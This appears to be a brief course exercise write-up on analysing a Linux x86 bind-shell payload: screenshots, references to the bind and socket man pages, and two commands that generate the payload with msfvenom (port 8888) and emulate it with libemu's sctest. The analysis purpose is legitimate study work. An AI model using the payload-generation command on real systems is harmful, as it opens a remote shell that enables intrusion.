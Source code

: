 # Exercise 1

![Screenshot](images/1.png)

man bind

![Screenshot](images/2.png)

man socket

![Screenshot](images/3.png)


Url: http://man7.org/linux/man-pages/man2/socket.2.html 



```
msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888 | ./sctest -vvv -Ss 10000 -G bindshell.dot
```

```
sh libemu.sh "msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888" bindshell | tee libemu_res/libemu_res.txt
```